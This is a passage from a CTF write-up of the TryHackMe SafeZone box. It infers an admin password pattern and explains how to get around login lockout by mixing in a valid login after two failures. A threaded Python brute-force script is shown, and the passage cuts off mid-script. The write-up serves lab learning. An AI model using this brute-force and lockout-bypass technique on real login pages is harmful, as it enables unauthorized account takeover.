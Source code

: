 **So admin's password is `admin[0-9]{2}admin`.**

Let's brute force it!

However, we need to bypass the brute force protection.

## Initial Foothold

**After poking around, I found that we can attempt 2 logins fall, then have a successful login will bypass that:**

> Note: If you want to learn more tricks to bypass brute force protection, you can read my PortSwiggers Labs [Authentication writeups](https://siunam321.github.io/ctf/#portswigger-labs).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230010920.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230010930.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230010947.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230011000.png)

**Let's write a python script to brute force admin's password!**
```py
#!/usr/bin/env python3
import requests
from threading import Thread
from time import sleep

def sendRequest(url, password):
    loginData = {
        'username': 'admin',
        'password': password,
        'submit': 'Submit'
    } 

    loginRequest = requests.post(url, data=loginData)

    # \r to clean previous line
    print(f'[*] Trying password: {password}', end='\r')

    if 'Please enter valid login details.' not in loginRequest.text:
        print(f'[+] Found valid admin password: {password}')

def main():
    url = 'http://safezone.thm/index.php'
    
    bypassLoginData = {
        'username': 'siunam',
        'password': 'password',
        'submit': 'Submit'
    }
    
    counter = 0

    # Generate number from 00 to 99
    for number in range(99):
        counter += 1
        password = f'admin{number:02d}admin'

        # Brute force admin's password
        thread = Thread(target=sendRequest, args=(url, password))
        thread.start()
        sleep(0.2)

```